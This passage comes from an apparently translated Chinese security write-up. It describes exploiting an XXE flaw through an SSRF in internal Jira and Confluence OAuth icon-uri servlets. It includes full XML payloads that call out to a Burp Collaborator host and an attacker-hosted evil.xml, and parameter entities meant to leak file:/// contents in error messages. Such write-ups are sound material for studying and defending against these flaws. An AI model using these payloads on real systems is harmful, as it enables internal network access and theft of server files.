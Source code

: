 响应：

```
The request is invalid: The request content was malformed:
http://jira.company.internal:8080/plugins/servlet/oauth/users/icon-uri
```

我再次检查了我的Burp Collaborator交互，但结果表明Jira可能已经修复了漏洞，或者禁用了易受攻击的插件。最后，在我疯狂寻找已知SSRF漏洞无果后，我决定尝试针对Confluence（默认情况下在8090端口）利用与Jira相同的漏洞。

请求：

```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "http://confluence.company.internal:8090/plugins/servlet/oauth/users/icon-uri?consumerUri=http://4hm888a6pb127f2kwu2gsek23t9jx8.burpcollaborator.net/x"&gt; %ext;
]&gt;
&lt;r&gt;&lt;/r&gt;
```

响应：

```
The request is invalid: The request content was malformed:
The markup declarations contained or pointed to by the document type declaration must be well-formed.
```

什么？！

[![](https://p5.ssl.qhimg.com/t0119c809c7909168ea.png)](https://p5.ssl.qhimg.com/t0119c809c7909168ea.png)

漏洞存在！我们成功通过内部存在漏洞的Confluence传出互联网流量，从而避免存在漏洞的服务器的防火墙限制。这意味着，我们现在可以尝试使用XXE的经典方法。首先，我们在攻击者的服务器上托管一个evil.xml文件，其中包含以下内容，希望以此能触发带有更多内容的错误消息：

```
&lt;!ENTITY % file SYSTEM "file:///"&gt;
&lt;!ENTITY % ent "&lt;!ENTITY data SYSTEM '%file;'&gt;"&gt;
```

让我们更详细地看一下这些参数实体的定义：
1. 将外部引用的内容（在示例中是系统的根目录）加载到变量%file;中。
1. 定义变量%ent;，二者结合在一起，编译第三个实体的定义。
1. 尝试访问位置%file;的资源（可能指向任何地方），并将该位置的任何内容加载到实体数据中。
我们在这里引入的第三个定义是失败的，因为%file;的内容不会指向有效的资源位置，而是包含完整目录的内容。

现在，使用Confluence“代理”指向我们的evil文件，并确保%ent;和%data;参数可以访问并触发目录访问。

请求：

```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "http://confluence.company.internal:8090/plugins/servlet/oauth/users/icon-uri?consumerUri=http://my_evil_site/evil.xml"&gt;
%ext;
%ent;
]&gt;
&lt;r&gt;&amp;data;&lt;/r&gt;
```
